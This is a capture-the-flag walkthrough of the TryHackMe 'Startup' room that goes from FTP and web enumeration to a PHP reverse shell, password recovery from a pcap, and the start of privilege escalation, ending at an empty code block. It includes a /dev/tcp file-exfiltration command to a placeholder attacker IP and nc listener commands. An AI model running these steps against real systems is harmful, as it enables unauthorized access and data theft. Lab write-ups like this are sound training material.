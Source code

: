 # TryHackMe - IDE

[Room link](https://tryhackme.com/room/startup)

---

## Enumeration

Nmap :

```bash
[...]
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:B5:E9:5D:9D:5F (Unknown)
```

---

### FTP 
---

Let(s try to connect us to the ftp servica as anonymous user.

```bash
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 .
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 ..
-rw-r--r--    1 0        0               5 Nov 12  2020 .test.log
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt

That works. 

```bash
ftp> get .test.log
ftp> get important.jpg
ftp> get notice.txt
```

After reading this files, there is no important things in there. Let's moving on the web service on the 80 port.

---

### HTTP 80

There is not interresting things on the default page. We will scan the web content directory of this website with dirb tool.

```bash
$ dirb http://10.10.1.159/
[...]
==> DIRECTORY: http://10.10.1.159/files/
+ http://10.10.1.159/index.html (CODE:200|SIZE:808)                          
+ http://10.10.1.159/server-status (CODE:403|SIZE:276) 
```

The files in the files directory seems the same on the ftp. 

---

## Exploitation

Let's try to upload a reverse shell on the ftp service.

```bash
ftp> put php-reverse-shell.php 
local: php-reverse-shell.php remote: php-reverse-shell.php
200 PORT command successful. Consider using PASV.
553 Could not create file.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 .
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 ..
-rw-r--r--    1 0        0               5 Nov 12  2020 .test.log
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
ftp> cd ftp
250 Directory successfully changed.
ftp> put php-reverse-shell.php 
local: php-reverse-shell.php remote: php-reverse-shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5494 bytes sent in 0.00 secs (124.7497 MB/s)
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Jan 03 17:56 .
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 ..
-rwxrwxr-x    1 112      118          5494 Jan 03 17:56 php-reverse-shell.php
226 Directory send OK.

```

We can't upload a file on the root of the ftp but we can on the "ftp" directory. Don't forget to set up the nc listenner and activate this file on the http://<target_ip>/files/

```bash
Connection from 10.10.1.159 44792 received!
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 17:58:59 up 19 min,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$
```

We received a connection !

---

### Secret food flag

```bash
$ cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was ****.
```

## User flag

After stabilized our shell, let's look on the root server directory. There is a strange directory named "incidents" with a pcap file named "

```bash
www-data@startup:/$ ls -l
total 92
drwxr-xr-x   2 root     root      4096 Sep 25  2020 bin
drwxr-xr-x   3 root     root      4096 Sep 25  2020 boot
drwxr-xr-x  16 root     root      3560 Jan  3 17:39 dev
drwxr-xr-x  96 root     root      4096 Nov 12  2020 etc
drwxr-xr-x   3 root     root      4096 Nov 12  2020 home
drwxr-xr-x   2 www-data www-data  4096 Nov 12  2020 incidents
[...]
www-data@startup:/incidents$ ls -l
total 32
-rwxr-xr-x 1 www-data www-data 31224 Nov 12  2020 suspicious.pcapng
```

We need to download this file for analyzes it with wireshark. Let's download it via nc listenner.

On the attacker machine :

```bash
$ nc -lnvp 1235 > file.pcap
```

On the target machine :

```bash
$ bash -c 'cat suspicious.pcapng > /dev/tcp/<attacker_ip>/1235'
```

Let's dive into the sequence 7 of the TCP stream on the pcap file :

```txt
www-data@startup:/home$ sudo -l
sudo -l
[sudo] password for www-data: *****
```

Let's try to connect on the user lennie with this password.

That works !

```bash
www-data@startup:/incidents$ su lennie -
Password: 
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
lennie@startup:/incidents$
```

The user flag is in the lennie's home directory on the user.txt file.

---

## Root flag

On the lennie's home directory, we can see a script called planner.sh

```bash
lennie@startup:~/scripts$ cat planner.sh 
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

After reading, the script will execute /etc/print.sh script and this file is editable by lennie.
The next step is to set up a nc will initilized a connection. 

On the attacker machine :

```bash
nc -lnvp 1235
```

On the target machine :

```bash

```
